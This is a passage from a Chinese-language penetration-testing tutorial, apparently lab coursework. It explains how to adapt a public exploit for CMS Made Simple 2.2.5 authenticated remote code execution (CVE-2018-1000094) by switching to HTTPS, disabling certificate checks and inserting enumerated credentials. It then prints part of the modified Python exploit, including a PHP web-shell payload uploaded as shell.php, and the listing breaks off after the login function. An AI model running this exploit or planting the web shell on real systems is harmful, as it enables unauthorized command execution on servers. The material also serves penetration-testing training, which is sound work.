 我们必须将IP地址和协议修改为HTTPS：

```
base_url = "https://10.11.0.128/admin"
```

我们还注意到，当我们浏览目标网站时，会出现SEC_UNKNOWN_ISSUER 错误。此错误表示无法验证远程主机上的证书。我们需要在漏洞代码中说明这一点。

具体来说，该漏洞利用请求Python库与目标进行通信。代码在第34、55和80行发出三个post请求：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606208375941-bf84af0a-a575-4192-ab54-2e38f3f7d16e.png)

官方文档指出，如果我们将verify参数设置为False，则将忽略SSL证书：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606208401041-4122f95a-dcb0-4c53-af04-dbff16cfa1ab.png)

最后，我们还需要更改原始攻击中使用的凭据，以匹配枚举过程中找到的凭据。它们分别在第15行和第16行的username和password变量中定义：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606208424634-844d1b8f-4faf-478b-994d-44ccb451a110.png)

我们可以轻松地替换这些凭据：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606208441500-4ab885c9-2aa8-4339-af16-7ad3b0550042.png)

注意，在这种情况下，我们不需要更新简单的有效负载，因为它只执行在GET请求中以明文形式传递的系统命令。

完成所有编辑后，最终的攻击应该如下所示：

```
# Exploit Title: CMS Made Simple 2.2.5 authenticated Remote Code Execution 
# Date: 3rd of July, 2018 
# Exploit Author: Mustafa Hasan (@strukt93) 
# Vendor Homepage: http://www.cmsmadesimple.org/ 
# Software Link: http://www.cmsmadesimple.org/downloads/cmsms/ 
# Version: 2.2.5 
# CVE: CVE-2018-1000094

import requests 
import base64

base_url = "https://10.11.0.128/admin" 
upload_dir = "/uploads" 
upload_url = base_url.split('/admin')[0] + upload_dir 
username = "admin" 
password = "HUYfaw763"

csrf_param = "__c"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]
def authenticate():
    page = "/login.php"
    url = base_url + page
    data = {
        "username": username,
        "password": password,
        "loginsubmit": "Submit" 
    } 
    response = requests.post(url, data=data, allow_redirects=False, verify=False) 
    status_code = response.status_code 
    if status_code == 302:
        print "[+] Authenticated successfully with the supplied credentials"
        return response.cookies, parse_csrf_token(response.headers['Location']) 
    print "[-] Authentication failed" 
    return None, None
```